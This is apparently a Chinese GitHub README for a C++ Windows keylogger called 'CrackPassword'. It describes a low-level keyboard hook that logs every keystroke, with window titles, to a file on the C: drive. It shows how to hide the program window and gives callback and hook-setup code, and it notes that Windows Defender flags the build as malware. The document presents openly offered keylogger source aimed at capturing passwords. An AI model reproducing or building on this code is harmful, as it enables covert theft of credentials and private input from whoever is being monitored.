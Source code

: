 ## 键盘记录器
开发语言：C++

开发工具：Visual Studio 2019

开发时间：2019.8.7

开发者：[Summer](https://github.com/zz2summer)

参考课程：[C/C++黑客技术：键盘记录器](https://www.bilibili.com/video/av56195928?from=search&seid=8623392146810887085)

项目源码参考：[C语言实现键盘记录器-源码](https://github.com/yuanyuanxiang/KeyboardRecorder/tree/master/CrackPassword)

***

一、编写Crack.dll钩子，记录键盘操作

&emsp;&emsp;源码参考：[Crack]()

二、编写使用程序 CrackPassword

&emsp;&emsp;源码参考：[CrackPassword]()

三、使用说明

&emsp;&emsp;编译之后，双击运行**CrackPassword.exe**，会弹出运行窗口，之后即会记录所有键盘操作，
生成文件**CrackPassword.dat**,保存在**C盘根目录下**，保存内容包含键盘操作的**窗口的标题**和**键盘输入**。

![Alt](runWidget.png#pic_center)

![Alt](saveFile.png#pic_center)

&emsp;&emsp;文件保存目录可在CrackPassword\CrackPassword.cpp中进行自定义修改。
```c
static FILE* pFile = fopen("C:\\CrackPassword.dat", "a+");
```

&emsp;&emsp;程序运行的显示窗口可在CrackPassword\CrackPassword.cpp中进行设置显示或者隐藏。
```c
//ShowWindow(hWnd, SW_HIDE); //隐藏程序运行窗口
ShowWindow(hWnd, SW_SHOW);   //显示程序运行窗口
```

## 代码变更历史

### [2025/01/23]

此项目 **Fork** 自[Summer](https://github.com/zz2summer)。经本人验证，编译通过，运行正常，质量较佳，实乃值得学习和借鉴的一个开源项目。

我清理了和项目无关的文件，在根目录增加单个Solution文件`KeyboardRecorder.sln`，将Crack和CrackPassword都包含进去，方便调试。

此外，我更新了初始化钩子的函数，需传递一个回调函数和用户指针，最终键盘消息将通过回调函数交由用户处理。

```c
BOOL InstallHook(Callback cb, void* user);
```

回调函数的定义如下：
```c
typedef int (CALLBACK *Callback)(const char* wnd, const char* key, void* user);
```

我保留了原作者的写文件的例子。实现了`Fwrite`回调函数：
```c
int CALLBACK Fwrite(const char* wnd, const char* key, void* user) {
	char buf[360] = {};
	sprintf_s(buf, "[%s] %s\n", wnd, key);
	return fwrite(buf, strlen(buf), 1, (FILE*)user);
}
```
在钩子初始化时，我们将`Fwrite`和文件句柄`pFile`传递到钩子中：
```c
static FILE* pFile = fopen("C:\\CrackPassword.dat", "a+");
InstallHook(Fwrite, pFile);
```

在`Fwrite`回调函数中，用户能得到窗口名称、键盘值和事先传递给`InstallHook`的指针，以便对消息进行处理。

**注意，回调函数不能阻塞!**

### [2025/01/24]

引入项目[`Keylogger`](https://github.com/GiacomoLaw/Keylogger/tree/master/windows)。
同理，修改此项目，在创建HOOK时设置回调函数，交由用户处理键盘消息记录。
以**klog_main.cpp**中EXAMPLE为例，调用`SetHook`启动钩子。
```c
SetHook(Fwrite, &output_file)
```
随后启动消息循环：
```c
MSG msg;
while (!g_shouldQuit)
{
	while (PeekMessage(&msg, NULL, 0, 0, PM_REMOVE));
	std::this_thread::sleep_for(std::chrono::milliseconds(20));
}
```
当有键盘消息时，由用户在回调函数Fwrite处理。

该项目使用低级钩子**WH_KEYBOARD_LL**，程序编译之后即被Windows Defender认为是恶意程序。
